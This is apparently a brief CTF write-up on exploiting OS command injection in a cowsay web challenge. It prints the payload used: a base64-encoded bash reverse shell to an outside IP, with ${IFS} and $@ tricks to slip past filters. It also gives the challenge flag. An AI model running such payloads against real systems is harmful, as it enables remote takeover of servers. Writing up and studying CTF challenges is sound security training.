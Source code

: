 # caas renewed
> moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt

## About the Challenge
We were given a website without the source code (IDK why they added the attachment after me and some teams solved this chall)

![preview](images/preview.png)

This website will displays our input

## How to Solve?
This website is also vulnerable to OS command injection but there are a lot of restriction, but in this case I will execute a reverse shell command. Here is the payload I used to do reverse shell

```
lala;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xNDMuMTk4LjgxLjE4Ni85OTk5IDA%2BJjE=|ba$@se64${IFS}-d|ba$@sh
```

Using `$@` to bypass restricted command and `${IFS}` to bypass whitespace

![flag](images/flag.png)

```
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```